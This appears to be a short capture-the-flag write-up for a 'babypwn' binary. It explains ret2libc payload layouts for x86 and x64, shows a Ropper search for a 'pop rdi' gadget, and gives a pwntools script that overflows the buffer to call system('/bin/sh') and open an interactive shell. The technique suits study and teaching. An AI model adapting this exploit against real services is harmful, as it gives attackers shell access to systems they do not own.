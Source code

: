 
#Clearify x64 & x86 

to perform ret2libc in x86 we can use the payload such as like this 

***x86***

```sh
| JUNK | system | FAKE | /bin/sh | 
```

However , since we know the highest address in x64 should be less or equal 0x00007fffffffffff , in this case we are going to use ROP gadget and our payload should be like this 

***x64***

```sh
| JUNK | POPRDI | /bin/sh | system | 
```

```

https://github.com/sashs/Ropper
```

let's find a pop rdi using Ropper 

```sh
vagrant@vagrant:~/pwn/pwn_university2018/babypwn$ ropper --file babypwn --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: babypwn
0x0000000000401203: pop rdi; ret;

```
let's go ahead and improve our exploit 

```python

from pwn import *



def exploit(r):


	system = p64(0x7ffff7a52390)
	sh = p64(0x7ffff7b99d57)
	poprdi = p64(0x0000000000401203)
	junk = "\x90" * 136
	r.sendline(junk + poprdi + sh + system)

	r.interactive()
if __name__ == '__main__':

    if(len(sys.argv) > 1):

        r = remote(HOST,PORT)
    
        exploit(r)
    else:
        file = 'babypwn'
        binary = os.getcwd() + '/' + str(file)
        r = process(binary)
        print(util.proc.pidof(r))
        pause()
        exploit(r)
```